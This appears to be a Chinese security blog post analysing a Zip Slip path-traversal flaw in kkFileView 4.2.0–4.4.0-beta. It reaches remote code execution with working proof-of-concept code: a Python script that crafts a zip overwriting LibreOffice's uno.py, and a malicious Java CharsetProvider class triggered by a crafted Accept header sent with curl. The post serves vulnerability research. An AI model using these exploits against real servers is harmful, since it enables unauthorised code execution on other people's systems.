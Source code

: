 title: kkFileView v4.2.0~v4.4.0-beta RCE 漏洞分析
author: Bmth
tags: []
cover: 'https://img-blog.csdnimg.cn/direct/98e1a150bf104dccb234d355ed8e39aa.png'
categories:
  - 代码审计
top_img: 'https://img-blog.csdnimg.cn/direct/98e1a150bf104dccb234d355ed8e39aa.png'
date: 2024-04-19 18:32:00
---
![](https://img-blog.csdnimg.cn/direct/98e1a150bf104dccb234d355ed8e39aa.png)

黄金榜上，偶失龙头望。明代暂遗贤，如何向。未遂风云便，争不恣狂荡。何须论得丧？才子词人，自是白衣卿相。
烟花巷陌，依约丹青屏障。幸有意中人，堪寻访。且恁偎红倚翠，风流事、平生畅。青春都一饷。忍把浮名，换了浅斟低唱！ 

Zip Slip漏洞还是很经典的，但没咋接触过，记录一下，[Java Zip Slip漏洞案例分析及实战挖掘](https://xz.aliyun.com/t/12081)

## 环境搭建
```bash
wget https://kkview.cn/resource/kkFileView-4.3.0-docker.tar
docker load -i kkFileView-4.3.0-docker.tar
docker run -it -p 8012:8012 keking/kkfileview:4.3.0
```

后续可以把jar拉出来，然后动调
```bash
java -Dfile.encoding=UTF-8 -Dspring.config.location=../config/application.properties -agentlib:jdwp=transport=dt_socket,server=y,suspend=n,address=5005 -jar kkFileView-4.3.0.jar
```

## 漏洞分析
看到预览文件功能
`cn.keking.web.controller.OnlinePreviewController`
![](https://img-blog.csdnimg.cn/direct/4ab1af26d6e34b4a9d384a0e655d260e.png)

根据文件类型获取对应的service，这里看到我们上传zip文件，那么 filePreview 即`CompressFilePreviewImpl`，最后会调用 filePreview 的 filePreviewHandle 方法进行处理

`cn.keking.service.impl.CompressFilePreviewImpl#filePreviewHandle`
![](https://img-blog.csdnimg.cn/direct/ce6b2c0d12df445db943a5e61878a6ed.png)

进行解压操作
`cn.keking.service.CompressFileReader#unRar`
![](https://img-blog.csdnimg.cn/direct/8352d20f14664b758dbc18a5757a1d3c.png)

获取到压缩包内部文件名，直接对路径进行拼接，导致目录穿越，并调用 FileOutputStream 创建文件，注意append为true，即如果文件已存在则追加数据

并且目录不存在的话，会 mkdirs 创建多级目录

**注意：**
这里 FileOutputStream 写文件需要先存在`extractPath + folderName + "_" + File.separator`这个文件夹，否则会报错找不到文件

所以需要放一个正常文件来构造该目录

## 漏洞利用
其实就一个Zip Slip，内容不足以我写一篇博客记录，当然是有后续了，先看看公开的方法

### uno.py RCE
目标在使用odt转pdf时会调用系统的Libreoffice，而此进程会调用库中的uno.py文件，因此可以在该文件内添加恶意代码
```python
import zipfile

if __name__ == "__main__":
    try:
        binary1 = b'1ue'
        binary2 = b'import os\r\nos.system(\'touch /tmp/hack_by_1ue\')'
        zipFile = zipfile.ZipFile("hack.zip", "a", zipfile.ZIP_DEFLATED)
        info = zipfile.ZipInfo("hack.zip")
        zipFile.writestr("test", binary1)
        zipFile.writestr("../../../../../../../../../../../../../../../../../../../opt/libreoffice7.5/program/uno.py", binary2)
        zipFile.close()
    except IOError as e:
        raise e
```
![](https://img-blog.csdnimg.cn/direct/c98ab067a4a74799b2d9a072657fe409.png)

缺陷：需要存在Libreoffice，并知道安装路径

### SpringBoot 任意文件写RCE
三梦师傅yyds！

看到该漏洞，第一时间就想的是SpringBoot写文件RCE，LandGrey师傅的charsets.jar需要替换该文件，那么就想到threedr3am师傅的SPI机制

看到`Charset.forName`的源码
```java
public static Charset forName(String charsetName) {
    Charset cs = lookup(charsetName);
    if (cs != null)
        return cs;
    throw new UnsupportedCharsetException(charsetName);
}
private static Charset lookup(String charsetName) {
    if (charsetName == null)
        throw new IllegalArgumentException("Null charset name");
    Object[] a;
    if ((a = cache1) != null && charsetName.equals(a[0]))
        return (Charset)a[1];
    // We expect most programs to use one Charset repeatedly.
    // We convey a hint to this effect to the VM by putting the
    // level 1 cache miss code in a separate method.
    return lookup2(charsetName);
}

private static Charset lookup2(String charsetName) {
    Object[] a;
    if ((a = cache2) != null && charsetName.equals(a[0])) {
        cache2 = cache1;
        cache1 = a;
        return (Charset)a[1];
    }
    Charset cs;
    if ((cs = standardProvider.charsetForName(charsetName)) != null ||
        (cs = lookupExtendedCharset(charsetName))           != null ||
        (cs = lookupViaProviders(charsetName))              != null)
    {
        cache(charsetName, cs);
        return cs;
    }

    /* Only need to check the name if we didn't find a charset for it */
    checkName(charsetName);
    return null;
}
```
跟进 lookupViaProviders 的 providers 方法
![](https://img-blog.csdnimg.cn/direct/573392b073f746f3b8c8319827910159.png)

发现就是一个SPI加载provider的模式
那么我们可以编写一个继承了`java.nio.charset.spi.CharsetProvider`类的恶意provider，通过SPI机制，触发其加载并初始化

Evil.java：
```java
import java.io.IOException;
import java.nio.charset.Charset;
import java.util.HashSet;
import java.util.Iterator;

public class Evil extends java.nio.charset.spi.CharsetProvider {

    @Override
    public Iterator<Charset> charsets() {
        return new HashSet<Charset>().iterator();
    }

    @Override
    public Charset charsetForName(String charsetName) {
        if (charsetName.startsWith("Evil")) {
            try {
                Runtime.getRuntime().exec("touch /tmp/test111");
            } catch (IOException e) {
                e.printStackTrace();
            }
        }
        return Charset.forName("UTF-8");
    }
}
```

在jre/classes内创建文件夹META-INF/services，在创建的文件夹下面创建一个文件，命名为SPI接口的全路径名，内容为需要动态加载的实现类的全路径名
```
bmth@bmth:/usr/lib/jvm/java-8-openjdk-amd64/jre/classes$ tree
.
├── Evil.class
└── META-INF
    └── services
        └── java.nio.charset.spi.CharsetProvider

bmth@bmth:/usr/lib/jvm/java-8-openjdk-amd64/jre/classes$ cat META-INF/services/java.nio.charset.spi.CharsetProvider
Evil
```
最后创建压缩包并上传预览
![](https://img-blog.csdnimg.cn/direct/1495841265704f95bf11380593304fd4.png)

成功写入文件

最后看看如何触发：`org.springframework.web.accept.HeaderContentNegotiationStrategy`
![](https://img-blog.csdnimg.cn/direct/ea0e33d7987f4babb715cedbec262035.png)

获取 Header头 Accept 的值，跟进处理方法`MediaType.parseMediaTypes(headerValues)`
```
<init>:189, MimeType (org.springframework.util)
parseMimeTypeInternal:255, MimeTypeUtils (org.springframework.util)
parseMimeType:195, MimeTypeUtils (org.springframework.util)
parseMediaType:617, MediaType (org.springframework.http)
parseMediaTypes:646, MediaType (org.springframework.http)
parseMediaTypes:666, MediaType (org.springframework.http)
resolveMediaTypes:53, HeaderContentNegotiationStrategy (org.springframework.web.accept)
```
new实例化对象MimeType
![](https://img-blog.csdnimg.cn/direct/441cf35b77184c13a406b9b6e64e118d.png)

调用 checkParameters 方法检测传入的值

![](https://img-blog.csdnimg.cn/direct/258d6fcf47404274b47481b08b03e859.png)

触发到Charset.forName()

最后的exp：（需要docker restart重启服务）
```
curl -X GET "http://192.168.111.178:8012/" -H "Accept: text/html;charset=Evil"
```

缺陷：
1. 由于类加载器缓存的机制，需要重启后才能加载到，非常鸡肋。。。
2. 需要知道jdk的绝对路径

## 总结
.jar包的任意文件写实现RCE还是非常困难的，需要一些第三方依赖，后续期待大佬们的研究

太菜了，没有想到更好的方法qwq，当然，如果非jar包启动直接freemarker模板注入即可

五一去粥的嘉年华和音律联觉了，打工仔难得的假期！

参考：
[从Spring Boot FatJar文件写漏洞的一次实践](https://www.cnblogs.com/wh4am1/p/14681335.html)
[JDK8任意文件写场景下的SpringBoot RCE](https://threedr3am.github.io/2021/04/14/JDK8%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E5%86%99%E5%9C%BA%E6%99%AF%E4%B8%8B%E7%9A%84SpringBoot%20RCE/)
[https://github.com/luelueking/kkFileView-v4.3.0-RCE-POC](https://github.com/luelueking/kkFileView-v4.3.0-RCE-POC)